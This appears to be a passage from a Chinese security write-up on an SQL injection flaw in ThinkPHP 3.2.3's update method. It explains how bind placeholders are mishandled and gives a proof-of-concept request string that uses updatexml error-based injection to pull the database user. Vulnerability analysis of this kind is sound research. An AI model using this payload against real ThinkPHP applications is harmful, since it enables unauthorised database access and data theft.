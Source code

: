 替换后：

![](./.resource/Thinkphp3.2.3update注入漏洞/media/rId28.jpg)

明显发现之前的`user`参数为:0然后被替换为了liao，这样就把:替换掉了。
后面的:1明显是替换不掉的：

![](./.resource/Thinkphp3.2.3update注入漏洞/media/rId29.jpg)

那么我们将id\[1\]数组的参数变为0呢？

    id[]=bind&id[]=0%27&money[]=1123&user=liao

![](./.resource/Thinkphp3.2.3update注入漏洞/media/rId30.jpg)

果然造成了注入：

### poc

    money[]=1123&user=liao&id[0]=bind&id[1]=0%20and%20(updatexml(1,concat(0x7e,(select%20user()),0x7e),1))

![](./.resource/Thinkphp3.2.3update注入漏洞/media/rId32.jpg)

参考链接
--------

> <https://www.anquanke.com/post/id/104847>
